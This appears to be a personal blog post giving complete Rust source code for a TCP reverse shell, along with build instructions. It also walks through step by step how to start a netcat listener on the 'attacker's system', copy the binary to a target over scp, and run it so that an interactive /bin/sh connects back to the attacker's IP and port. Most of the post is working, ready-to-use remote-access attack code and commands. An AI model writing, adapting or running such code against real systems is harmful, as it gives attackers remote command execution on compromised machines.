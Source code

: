 ```yaml
---
layout: post
title:  "A TCP Reverse Shell with Rust"
date:   2022-07-31 00:30:00
tags: rust tcp reverse shell
---
```


A reverse shell, also known as a remote shell or “connect-back shell” is used to initiate a shell session and execute commands in a target system.

![IPS](/img/tcp_reverse_shell/tcp_reverse_shell.png)

There are many examples available in [different programming languages](https://www.revshells.com/), or it is possible generating reverse shells with tools like [meterpreter](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/osx/x64/meterpreter/reverse_tcp.md) and the metasploit framework.

Furthermore, reverse shells can be implemented for any operating system and network protocols such as TCP, UDP, ICMP or over encrypted channels with SSL.

However, I'm going to use the Rust programming language and the cargo tool to generate a small program that can be 
executed as a TCP reverse shell in the target's system. Additionally, this code can be compiled for most of the Unix flavors. 

# TCP Reverse Shell

{% highlight rust %}
use std::env;
use std::fs::File;
use std::net::TcpStream;
use std::os::unix::io::{FromRawFd, RawFd};
use std::os::unix::prelude::AsRawFd;
use std::process::Command;

fn main() {
    let args: Vec<String> = env::args().collect();
    if args.len() < 2 {
        panic!("Usage: reverse_shell <IP> <PORT>");
    }

    let ip = &args[1];
    let port = &args[2];

    let tcp_stream = match TcpStream::connect(format!("{ip}:{port}")) {
        Err(why) => panic!("Connection error: {why}"),
        Ok(tcp_stream) => tcp_stream,
    };

    let raw_fd: RawFd = tcp_stream.as_raw_fd();

    let mut rev_shell = match Command::new("/bin/sh")
        .arg("-i")
        .stdin(unsafe { File::from_raw_fd(raw_fd) })
        .stdout(unsafe { File::from_raw_fd(raw_fd) })
        .stderr(unsafe { File::from_raw_fd(raw_fd) })
        .spawn()
    {
        Err(why) => panic!("Error: {why}"),
        Ok(child) => child,
    };

    match rev_shell.wait() {
        Err(why) => panic!("Error: {why}"),
        Ok(exit_status) => exit_status,
    };
}
{% endhighlight %}

## How to compile the code

{% highlight bash linenos %}
cargo build --release
cargo install
{% endhighlight %}

* [Source code](/src/tcp_reverse_shell/reverse_shell.tar.xz)  

**Note:* if you require to compile the code from a unix flavor to run in another one, please follow the [Rust cross-compilation instructions](https://rust-lang.github.io/rustup/cross-compilation.html).

## How to test the TCP Reverse Shell

**1** Run a TCP server listening on the 4321 port in the attacker's system.
  {% highlight bash %}
    netcat -l -s 10.10.10.1 -p 4321
  {% endhighlight %}

**2**  Copy the reverse shell program to the target's system.
  {% highlight bash %}
    scp reverse_shell demo@10.10.10.2:
  {% endhighlight %}

**3**  Run the reverse_shell from the target's system
  {% highlight bash %}
    ./reverse_shell  10.10.10.1 4321
  {% endhighlight %}

**4** The TCP server will receive a shell session in the attacker's system.


I hope you have enjoyed this small piece of code and have happy weekend.

# References

* [Install Rust](https://www.rust-lang.org/tools/install)
* [The Cargo Book](https://doc.rust-lang.org/cargo/)
* [Module std::fs](https://doc.rust-lang.org/std/fs/)
* [Module std::net](https://doc.rust-lang.org/std/net/)
* [Module std::process](https://docs.rs/rustc-std-workspace-std/1.0.1/std/process/index.html)
